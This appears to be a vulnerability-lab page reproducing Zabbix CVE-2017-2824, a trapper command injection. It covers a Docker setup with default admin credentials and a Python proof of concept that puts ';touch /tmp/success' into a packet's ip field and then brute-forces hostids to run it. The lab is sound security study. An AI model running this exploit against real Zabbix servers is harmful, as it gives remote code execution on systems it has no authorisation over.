




Zabbix Server Active Proxy Trapper Command Injection (CVE-2017-2824)¶
Zabbix is a server monitoring software that consists of server, agent, and web modules. The web module is written in PHP and is used to display results from the database.
In the Zabbix version 2.0.x prior to 2.0.21, 2.2.x prior to 2.2.18, 2.4.x, 3.0.x prior to 3.0.9, or 3.2.x prior to 3.2.5, there is a code execution vulnerability in Zabbix's server-side trapper command functionality, where specific packets can cause command injection, leading to remote code execution. An attacker can trigger this vulnerability by initiating a request from a Zabbix proxy.
Reference:
Environment Setup¶
Execute the following command to start a complete Zabbix 3.0.3 environment, including the Web interface, Server, 1 Agent, and MySQL database:
docker compose up -d
After executing the command, run docker compose ps to check if all containers have started successfully. If not, try running docker compose up -d again.
To exploit this vulnerability, you need to enable the auto-registration feature on the server side. First, log in to the backend as an administrator using the credentials admin/zabbix. Go to Configuration->Actions, change the Event source to Auto registration, then click Create action and create an Action with any name:

In the third tab, create an Operation with type "Add Host":

Save the settings. This enables the auto-registration feature, allowing attackers to register their servers as Agents.
Vulnerability Reproduction¶
Use this simple POC to reproduce the vulnerability:
import sys
import socket
import json
import sys
def send(ip, data):
conn = socket.create_connection((ip, 10051), 10)
conn.send(json.dumps(data).encode())
data = conn.recv(2048)
conn.close()
return data
target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":";touch /tmp/success"}))
for i in range(10000, 10500):
data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
if data and b'failed' not in data:
print('hostid: %d' % i)
print(data)
This POC is relatively basic and may need to be executed multiple times. When you see the following result, it indicates successful command execution:

Enter the server container, and you can see that /tmp/success has been successfully created:

Interested users can improve this POC and submit a Pull Request.